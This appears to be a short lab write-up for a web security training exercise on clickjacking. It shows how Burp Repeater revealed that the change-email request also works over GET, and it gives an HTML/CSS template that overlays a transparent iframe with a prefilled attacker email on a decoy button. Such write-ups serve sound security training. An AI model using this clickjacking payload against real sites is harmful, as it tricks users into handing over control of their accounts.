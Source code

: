 # Some cases of Clickjacking

## 1. Clickjacking with form input data prefilled from a URL parameter

Log on to the account with `username = wiener` , `password = peter`

Change the email into:  `ian@hacker.com`

Using Burp, the Proxy tab proceeds to search for the `my-account/change-email` section. Then `Send to repeater`.

In the repeater, when sending with the `POST` method, the response side returns
a result of `302 Found`. Therefore, we proceed to change the `POST` method to `GET` and send back => Return that found `ian@hacker.com`

Go back to the website and click on `Go to exploit server` to proceed with the change 
structure the body and occupy the server with the following information:

`
<style>

   iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }  
</style>
<div> Test me </div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>`




    
